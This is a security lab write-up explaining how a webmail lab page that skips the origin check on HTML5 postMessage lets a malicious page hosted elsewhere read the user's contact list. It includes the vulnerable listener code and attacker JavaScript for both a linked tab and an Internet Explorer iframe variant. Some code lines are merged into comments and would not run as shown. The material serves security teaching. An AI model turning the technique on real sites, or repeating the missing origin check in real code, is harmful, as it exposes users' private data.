



# Lab #3 - Attacking HTML5 - 3

After authenticating, the customer can view their contact list by clicking the Contacts button. When you click on the Contacts button, a new tab (with page contacts.php) will be opened in your browser.

Now your browser contains two tabs (referred to as windows):

- One points to the page index.php

- One points to the page contacts.php

The two tabs have a specific relationship; the second has been opened by the first one through a link (HTML tag).

You can find the above tag inside the index.html page:

    <a href="contacts.php" target="_blank"> 
            <b>Contacts</b> 
    </a>
If you inspect the HTML code of the index.html page, you will notice that it can receive cross window messages from other windows. This page makes use of the HTML5 cross window messaging feature and acts as the receiving window.

Code from the index.html page:

    window.addEventListener("message", receiveMessage, false);
        function receiveMessage(event) {
        /* 
        if (event.origin!=secureWebMailDomain) {
            return
        } 
        */ 
        if (event.data=="getContacts") {
            var caller=event.source; 
            caller.postMessage(contactsList,"*");
        } 
    }

If the message received is getContacts, the index.html page will send the object contactsList to the requesting window. This object contains the contact list of the authenticated user that opened the page.

Engineers at SecureWebmail did not check the origin of the requesting window (they have commented out the JavaScript code that performing the origin check), so the page index.html will process all incoming requests, regardless of their origin.

If you inspect the HTML code on the contacts.php page, you will notice that it sends the message getContacts to the index.html window. After that, it waits for a reply and uses the reply to show the contact list to the user.

This page makes use of the HTML5 cross-window messaging feature and acts both as sender and a receiver window.

Code on page contacts.php

    // Code to receive the contact list from the opener window window.addEventListener("message", receiveMessage, false); 
    function receiveMessage(event) {
        var contactsList=JSON.parse(event.data);               fillContactsList(contactsList); 
        } 
    // Code to ask the opener window for the contact window.opener.postMessage("getContacts","*");

You can infer that the page index.html is vulnerable because it processes all of the incoming cross-window messages.

The attacker needs to build a malicious web page within his blog domain (http://attackerrepository.lab.html5.site). After that, he needs to entice his victim into visiting this malicious web page.

Let us assume that the blog of the attacker exists and is available at this address:

    http://attackerrepository.lab.html5.site/crossWindowMessaging/192/index.html
The attacker has included malicious JavaScript which makes use of this cross-window messaging flaw.

This code (below) will steal the user's contact list:

    // Code to ask the opener window for the contact list window.opener.postMessage("getContacts","*");
    // Code to receive the contact list from the opener window window.addEventListener("message", receiveMessage, false); 
    function receiveMessage(event) { 
            var contactsList= JSON.parse(event.data);
            fillContactsList(contactsList); 
    }

To run the attack, it is necessary that:

- The victim has already authenticated to Secure Webmail

- A link to the malicious blog is available in the victim's index.php page. This is necessary because the two windows (the index.php page and the blog page) must have a relationship in order to exchange messages.

The attacker will use the Secure Webmail application to send a message to his victim including the malicious link. Secure Webmail will show the message within the index.php page.

After clicking the link, Carolina visits the blog, and an alarming message will show her contact list to her

## The Internet Explorer exception

The attack will not work in Internet Explorer. Internet Explorer does not allow cross window messages if one of the two windows has been opened by clicking on a link or through the API window.popup. If you try to run the attack, the IE browser will return the error "No such interface."

To bypass this issue, the attacker must include (through an iframe) the index.php page in his blog.

    // Code to include the Secure Webmail site as iframe 
    <iframe id="iFrame" src="<SecureWebmail>/index.php">

Now cross-window messaging must be established between the iframe and its parent (the blog page).

The attacker could use this JavaScript code below to steal the user data using Internet Explorer.

    var iFrame=document.getElementById("iFrame"); 
    // Code to ask the iframe window (index.php) for the contact list iFrame.ContentWindow.postMessage("getContacts","*");
    // Code to receive the contact list from the iframe window 
    window.addEventListener("message", receiveMessage, false);
    function receiveMessage(event) {
        var contactsList=JSON.parse(event.data); 
        fillContactsList(contactsList);
    }